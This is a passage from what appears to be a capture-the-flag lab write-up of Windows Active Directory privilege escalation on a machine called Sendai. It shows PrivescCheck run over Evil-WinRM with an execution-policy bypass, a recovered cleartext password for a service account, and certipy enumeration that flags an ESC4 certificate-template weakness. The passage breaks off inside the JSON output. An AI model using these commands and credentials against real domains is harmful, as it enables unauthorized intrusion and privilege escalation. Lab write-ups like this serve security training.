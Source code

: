 We have no idea about Clifford so lets try to get him password

https://github.com/itm4n/PrivescCheck

### privesc.ps1

    *Evil-WinRM* PS C:\Users\mgtsvc$\Documents> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"

and download .html file and look at here;

![alt text](<../assets/images/5 (1).png>)

    we got creds

    C:\WINDOWS\helpdesk.exe -u clifford.davey -p RFmoB2WplgE_3p -k netsvcs
    User        : LocalSystem
    StartMode   : Automatic

### certipy part
    ➜  certipy certipy-ad find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.10.65.237 -vulnerable -enabled
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Finding certificate templates
    [*] Found 34 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 12 enabled certificate templates
    [*] Trying to get CA configuration for 'sendai-DC-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'sendai-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'sendai-DC-CA' via RRP
    [!] Failed to connect to remote registry. Service should be starting now. Trying again...
    [*] Got CA configuration for 'sendai-DC-CA'
    [*] Saved BloodHound data to '20250113174809_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
    [*] Saved text output to '20250113174809_Certipy.txt'
    [*] Saved JSON output to '20250113174809_Certipy.json'

### ESC4

before start 

    {
    "Certificate Authorities": {
        "0": {
        "CA Name": "sendai-DC-CA",
    "Certificate Templates": {
        "0": {
        "Template Name": "SendaiComputer",
        "Display Name": "SendaiComputer",
        "Certificate Authorities": [
            "sendai-DC-CA"
        },
        "[!] Vulnerabilities": {
            "ESC4": "'SENDAI.VL\\\\ca-operators' has dangerous permissions"
      